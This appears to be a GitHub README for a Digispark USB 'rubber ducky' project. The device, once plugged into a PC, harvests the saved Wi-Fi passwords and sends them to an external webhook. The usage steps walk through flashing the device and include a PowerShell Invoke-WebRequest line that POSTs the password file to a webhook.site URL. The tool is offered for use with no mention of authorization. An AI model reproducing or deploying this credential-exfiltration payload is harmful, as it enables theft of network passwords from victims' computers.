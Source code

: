 # wifi-grabber-ducky
USB rubber ducky that grabs saved wifi password from pc and sends into a webhook site. This is inspired from Cyber Mentor's [video](https://www.youtube.com/watch?v=uH-4btjE56E&t=248s).

## Requirements
 - [Digispark USB Development Board Attiny85](https://circuit.rocks/products/digispark-usb-development-board-attiny85)
 - [Arduino IDE](https://www.arduino.cc/en/software/)

## Usage
 1. Go to [Webhook Site](https://www.google.com/url?sa=t&source=web&rct=j&opi=89978449&url=https://webhook.site/&ved=2ahUKEwiK_6b4y5GFAxURyzgGHd0CDaAQFnoECAcQAQ&usg=AOvVaw1m2b3mmqgLIDfWa5YwqIcy).
 2. Copy your *unique URL*.
    
    ![image](https://github.com/meezlung/wifi-grabber-ducky/assets/65329581/ed3473b1-9af0-492e-96c8-1e8847e36edd)
    
 3. Download *wifi-key-grab.ino* file and edit it using Arduino IDE.
 4. In line 42 or in the line of code below, change the webhook url to your unique URL.
  ```
  DigiKeyboard.println("powershell Invoke-WebRequest -Uri https://webhook.site/2265df61-338c-470f-a0ec-0f6011dc9a16 -Method POST -InFile Wi-Fi-PASS"); //Submitting all passwords on hook
  ```
 5. Once set, compile your program in Arduino IDE.
 6. Plug in your DigiSpark USB, then upload the program.
 7. Enjoy.

## Demo
![wifi-key-grabber-demo](https://github.com/meezlung/wifi-grabber-ducky/assets/65329581/26b95e26-6afd-4644-bdf3-ad73d0abc26b)

## Note:
If ever you're going to use it again, make sure to repeat the steps again, as webhook URLs tend to reset after some time.
